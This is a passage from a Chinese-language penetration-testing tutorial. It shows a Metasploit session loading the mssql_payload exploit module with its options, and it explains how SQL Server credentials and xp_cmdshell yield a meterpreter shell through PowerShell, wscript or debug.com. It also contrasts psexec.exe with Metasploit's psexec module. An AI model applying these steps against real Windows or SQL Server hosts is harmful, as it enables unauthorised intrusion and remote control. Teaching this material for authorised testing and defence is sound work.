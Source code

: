 这里需要注意的是 psexec.exe(pstools 中的工具)如果不能成功执行，那么 psexec_command 或许是可以执行的，并且大多数的情况下 metasploit 中的 psexec 都可以用，而 psexec.exe 则不能用 :(

**sqlserver**

```
msf exploit(psexec) > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > show options 

Module options (exploit/windows/mssql/mssql_payload):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   METHOD               cmd              yes       Which payload delivery method to use (ps, cmd, or old)
   PASSWORD                              no        The password for the specified username
   RHOST                                 yes       The target address
   RPORT                1433             yes       The target port
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(mssql_payload) > 
```

![enter image description here](img/img11_u17_png.jpg)

在获得 sql server 的登陆权限后同样可以快速的获得 meterpreter shell。

注意这里 METHOD 选项，三种方法都要使用 XP_cmdshell，而第一种 ps 是使用 powershell，第二种需要使用 wscript.exe，第三种则要用到 debug.com。 本地没有环境，就不截图演示了
